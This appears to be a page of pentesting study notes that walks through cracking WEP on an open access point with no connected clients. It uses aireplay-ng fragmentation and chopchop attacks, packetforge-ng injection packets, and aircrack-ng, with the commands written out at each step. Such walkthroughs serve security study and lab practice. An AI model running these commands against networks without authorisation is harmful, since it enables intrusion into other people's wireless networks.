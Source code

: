 ```yaml
---
description: >-
  This attack uses packetforge-ng to "forge" a packet that can be used to replay
  against AP collecting enough IV to crack the password.
---
```


# WEP Attack  \(OPEN\) - Clientless

### 1. Fake authentication attack \(MAC association\)

Similarly to scenario of WEP attack with Clients connected. Perform a Fake authentication attack to associate with AP \(refer to the 1st step of WEP attack guide link below\)

{% page-ref page="wep-attack-clients-connected.md" %}

### 2. Fragmentation attack / Korek Chop Chop

Both methods can lead us subsequently create the ARP injection packet that we can later use in replaying the request to AP \(to gather enough IV which in turn can let us crack the WEP\)

### **\(i\) Fragmentation** 

fragmentation attack does not obtain WEP key, but obtains PRGA key stream of packets - PRGA can be used to generate packets with packetforge-ng. Generate packets for injection attacks.

```bash
aireplay-ng -5 -b <AP_MAC> -h <MY_MAC> wlan0mon

# Reports "Got RELAYED packet!!"
# Saving keystream in a file name <fragment-xxxx-xxx.xor>
```

### **\(ii\) Korek Chop Chop** 

**K**orek chop chop attack can decrypt WEP packet without knowing the key. Recovery of key stream for a given packet, to allow us to decrypt previous or future packets with equal or less length of same IV. This allow us to generate our own new packets for injection without the WEP key.

We can also use korek chop chop for various things:

* decrypt interesting packets
* forge snmp packets
* blind port scan of the network
* create arp request to accelerate IV 

To perform Korek Chop chop attack use the below command. Once receive a packet enter 'y'

```bash
aireplay-ng -4 -b <AP_MAC> -h <MY_MAC> wlan0mon
# packet filename - "replay_xxx-xxxx-xxxxxx.cap"
# PRGA filename - "replay_xxx-xxxx-xxxxxx.xor"

# Examine captured packet
tcpdump -s 0 -n -e -r replay_xxx-xxx-xxxxx.cap

#TAKE NOTE OF THE IP ADDRESS
```

Now check the contents of the captured packet to discover what is the IP scheme of the network

```bash
tcpdump -s 0 -n -e -r <replay_xxx-xxxx-xxxxxx.cap>
# eg. broadcast packet details show that client ip details
```

### 3. Packetforge-ng create Injection packets

Creates encrypted packets which later be used for injection. PRGA we got previously is used to encrypt packets by packetforge-ng. 

```bash
packetforge-ng -0 -a <AP_MAC> -h <MY_MAC> -l <soure_address> -k <destination address> -y <prga file> -w <inject.cap>

# Examine if the created packet makes sense (or is a valid one)
tcpdump -n -vvv -e -s0 -r inject.cap

```

### 4. Inject Packets to network \(aireplay Interactive mode\)

Select 'y' to send packet to AP. Now the 'data' count is rapidly increasing, this attack continues in WEP attack where client is connected scenario.

```bash
aireplay-ng -2 -r <inject.cap> wlan0mon
```

### 5. Cracking WEP password

```bash
aircrack-ng -0 <airodump-writeout-file.cap>
```




